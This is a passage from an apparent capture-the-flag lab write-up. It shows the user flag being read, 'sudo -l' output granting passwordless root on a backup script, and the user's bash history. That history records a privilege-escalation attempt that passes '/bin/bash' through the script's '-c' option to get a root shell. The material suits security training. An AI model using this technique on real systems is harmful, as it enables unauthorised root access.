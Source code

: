 And we're in! With that we can get the **user.txt** flag in the alex home directory.

`cat user.txt`

> flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}



<br>

## System Enumeration

I take a look around his home directory and find that he does have sudo access given there is a **.sudo_as_admin_successful** file there. The system also does not have bash history going to /dev/null so we can look at what was done previously in **.bash_history**.

First let's see what `sudo -l` shows us:

```bash
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

So we can run that **backup.sh** script as root. Definitely worth looking into.

Taking a quick look at the **.bash_history** file:

```bash
ftp localhost
ls
rm examples.desktop 
ls -la
ls
ls -la
ls
exit
su alex
exit
su root
sudo su -
exit
sudo -l
cd /var
ls
cd ..
cd etc
ls
cd ..
cd root
ls
cd /etc/mp3backups/
ls
./backup.sh 
ls
echo "hi" >> backup.sh
ls
sudo ./backup.sh -c whoami
sudo ./backup.sh -c /bin/bash
ls
cd /home/alex
ls
sudo bash -c 'echo "flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}" > /home/alex/user.txt'
ls
sudo bash -c 'echo "flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}" > /home/alex/user.txt'
```